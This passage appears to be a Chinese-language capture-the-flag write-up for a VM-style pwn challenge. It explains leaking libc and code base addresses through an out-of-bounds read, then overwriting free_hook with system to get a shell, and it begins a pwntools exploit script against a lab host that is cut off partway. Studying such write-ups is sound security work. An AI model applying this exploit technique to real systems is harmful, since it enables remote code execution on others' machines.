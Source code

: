 ```
.data:0000000000004000 _data
.data:0000000000004008 __dso_handle
LOAD:0000000000004010 ???
.bss:0000000000004020 stdout@@GLIBC_2_2_5
.bss:0000000000004028 <align>
.bss:0000000000004030 stdin@@GLIBC_2_2_5
.bss:0000000000004038 <align>
.bss:0000000000004040 stderr@@GLIBC_2_2_5
.bss:0000000000004048 completed_8061
.bss:0000000000004050 sp_4050
.bss:0000000000004058 <align>
.bss:0000000000004060 mem     dq     1000h
.bss:000000000000C060 ops
.bss:000000000000C068 ptr
.bss:000000000000C070 <align>
.bss:000000000000C080 reg     dq     100h
.bss:000000000000C880 stack   dq     1000h
```

在 `stdin`, `stdout`, `stderr` 的地方可以讀取到 libc 上的位置，在 `ptr` 上可以讀取到 heap 上的位置，在 `__dso_handle` 可以讀取到 data 區段上的位置，可以使用前面的 OOB read 來 leak

當有了 codebase, libcbase，可以得出 libc `freehook` 與 `stack` 的位置，就可以透過修改 `sp_4050` 變成相對的 offset 使得下一次做 push stack 的 opcode 時可以修改 freehook 的值，寫成 system，並觸發 free，即可 get shell

策略整理如下

1. OOB read，leak `ptr` 拿 heapbase (雖然事後發現不需要)
2. OOB read，leak `stdout` 和 `__dso_handle`，得到 libcbase, codebase，並將 `sp_4050` 調整到 `sp_4050` 的 offset
3. 把 `sp_4050` 改成 free hook 的 offset，寫 free hook
4. 觸發 free_hook

以下是完整的 exploit

```python
from pwn import *
binary = "./chal"

context.terminal = ["cmd.exe", "/c", "start", "bash.exe", "-c"]
context.log_level = "debug"
context.binary = binary

conn = remote("10.99.66.2", 1337)
# conn = process(binary)
# conn = gdb.debug(binary, "set solib-search-path ./libc.so.6")

def read_opcode(size, data):
    conn.sendlineafter(b'> ', b'1')
    conn.sendlineafter(b'Size: ', str(size).encode())
    conn.recvuntil(b'Opcodes: ')
    for d in data:
        conn.sendline(str(d).encode())

def execute_opcode():
    conn.sendlineafter(b'> ', b'2')

# chunk1 (leak ptr)
pop_r0 = u64(b'\x00\x00\x00\x00\x0d\x00\x00\x00'[::-1])
push_r1 = u64(b'\x00\x00\x00\x00\x0c\x00\x00\x01'[::-1]) # ops
print_r0 = u64(b'\x00\x00\x00\x00\x0b\x00\x00\x00'[::-1])

set_r1_265 = [
    u64(b'\x00\x00\x00\x00\x00\x01\x00\xff'[::-1]), # set r1 255
    u64(b'\x00\x00\x00\x00\x00\x02\x00\x0a'[::-1]), # set r2 10
    u64(b'\x00\x00\x00\x00\x01\x01\x01\x02'[::-1]), # add r1, r1, r2
```